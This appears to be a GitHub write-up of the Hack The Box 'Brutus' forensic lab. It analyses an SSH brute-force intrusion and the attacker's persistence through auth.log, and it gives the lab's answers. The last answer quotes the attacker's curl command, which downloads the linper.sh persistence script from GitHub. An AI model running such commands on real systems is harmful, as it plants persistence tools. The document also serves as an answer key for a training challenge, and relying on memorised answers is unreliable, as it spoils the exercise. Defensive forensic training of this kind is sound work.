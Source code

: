 # Brute Force Analysis 

## Objective

Brutus lab from Hack the Box 

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

### Skills Learned

- Advanced understanding of SIEM concepts and practical application.
- Proficiency in analyzing and interpreting network logs.
- Ability to generate and recognize attack signatures and patterns.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

### Tools Used

- Security Information and Event Management (SIEM) system for log ingestion and analysis.
- Network analysis tools (such as Wireshark) for capturing and examining network traffic.
- Telemetry generation tools to create realistic network traffic and attack scenarios.

## Steps
### Questions
Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

65.2.161.68

The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

Root

Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

2024-03-06 06:32:45

SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

37


The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Cyberjunkie

What is the MITRE ATT&CK sub-technique ID used for persistence?

T1136.001

How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)
279

The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
